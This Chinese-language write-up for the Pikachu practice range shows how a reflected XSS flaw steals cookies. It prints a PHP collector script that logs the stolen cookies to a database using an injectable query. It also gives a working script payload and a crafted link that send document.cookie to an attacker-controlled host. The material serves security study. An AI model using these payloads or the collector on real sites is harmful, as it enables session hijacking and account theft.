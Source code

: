 ***
#### Get 获取 Cookie

>分析

从 `cookie.php` 开始看起，这段代码的意思就是将 Get 请求参数中的 cookie 参数值加上其他的一些状态保存到数据库里，然后重定向到某个网站。

```php
<?php
include_once '../inc/config.inc.php';
include_once '../inc/mysql.inc.php';
$link=connect();

//这个是获取cookie的api页面

if(isset($_GET['cookie'])){
    $time=date('Y-m-d g:i:s');
    $ipaddress=getenv ('REMOTE_ADDR');
    $cookie=$_GET['cookie'];
    $referer=$_SERVER['HTTP_REFERER'];
    $useragent=$_SERVER['HTTP_USER_AGENT'];
    $query="insert cookies(time,ipaddress,cookie,referer,useragent)
    values('$time','$ipaddress','$cookie','$referer','$useragent')";
    $result=mysqli_query($link, $query);
}
header("Location:http://192.168.1.4/pikachu/index.php");//重定向到一个可信的网站
?>
```

持久化的步骤没什么需要改的，我们将重定向的地址修改一下即可，这里我将地址修改为靶场的首页。eg：`http://192.168.127.200:9000/index.php`，也可以直接将其重定向到 referer 页面，这样客户端不会出现无缘无故跳转的情况。

利用方式：docuemnt.location 能够将浏览器重定向到其他页面，我们只要将 document.location 指向 cookie.php，就能获取用户的 cookie 了。

>利用

payload:`<script>document.location="http://192.168.127.200:9000/pkxss/xcookie/cookie.php?cookie="+document.cookie</script>`

将 payload 注入到靶场注入点中，以反射型xss(get) 为例，将 payload 输入并提交，页面跳转，后台成功获取用户的 cookie

![](../../image/Pasted%20image%2020230426024340.png)

在正式场景中，黑客往往会将漏洞利用的 url 提取出来，诱导用户点击，以达到攻击的目的，上述漏洞的 url 为 `http://192.168.127.200:9000/vul/xss/xss_reflected_get.php?message=<script>document.location="http://192.168.127.200:9000/pkxss/xcookie/cookie.php?cookie="+document.cookie</script>&submit=submit`
